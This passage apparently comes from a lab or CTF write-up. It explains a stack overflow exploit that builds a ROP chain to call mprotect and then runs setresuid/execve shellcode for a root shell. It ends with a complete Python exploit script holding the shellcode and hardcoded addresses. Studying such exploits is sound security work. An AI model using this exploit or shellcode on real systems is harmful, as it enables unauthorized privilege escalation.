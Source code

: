 ```c
#define PROT_READ    0x1     /* Page can be read.  */
#define PROT_WRITE    0x2     /* Page can be written.  */
#define PROT_EXEC    0x4     /* Page can be executed.  */
#define PROT_NONE    0x0     /* Page can not be accessed.  */
```  

We just want to set all permissions, so we'll use `0x7`.

Now we'll have to build a very simple Return Oriented Programming (ROP) chain to actually execute this function.  A ROP chain is effectively constructing a fake stack frame and slowly executing small pieces of code using areas of the binary.  This is a whole topic by itself, so I'll leave it to the reader to research this, but I will include a few resources within references.  

We're also going to need the address of `mprotect`, which we can do quite easily within gdb.

![](https://image.ibb.co/iRsQWm/27.png)

Since a ROP chain sets up a fake stack frame, we overwrite `eip` with the function we want to call, followed by the return address after that's called, and followed by the params to the first function.  This is why you might see ret2libc examples use the following chain: `glibc_system->glibc_exit->binsh_string`.  This is because once `system('/bin/sh')` is called, execution needs to resume somewhere after, hence it returns to `exit()` allowing a graceful exit from the program.  

In our case we do `glibc_mprotect->buffer_with_shellcode->mprotect_params`.

A run with a simple `/bin/sh` shellcode returns us a shell, but one running as non-root.  This is expected however on modern systems, as `/bin/sh` will be executed with the permissions of your effective uid.  We just replace our shellcode with [one](https://www.soldierx.com/bbs/201308/HOWTO-x86-setresuid-execve-shellcode-44-bytes) that sets our euid as 0 before returning a shell.

### Final Exploit  

```python
import struct
scode = '\x90'*5
scode = "\x90\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xa4\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

ret_address = 0xbffff5b0 #replace this with whatever is shown in the mapping

mprotect = struct.pack("<L", 0xb7e1a000+0x000e2d50)
pop3ret = struct.pack("<L", 0x80000f19)
stackadd = struct.pack("<L", 0xbfedf000) #Replace with whatever's in the mapping
stacksize = struct.pack("<L", 0x121000) 
setread = b'\x07\x00\x00\x00'


buf = b""
buf += scode.ljust(76, "\x90") #ljust sets a fixed length buffer, regardless of payload length and writes our rop chain
buf += mprotect
buf += struct.pack("<L", ret_address)
buf += stackadd
buf += stacksize
buf += setread


with open('tmpbuf','wb') as buffef:
	buffef.write(buf)

```
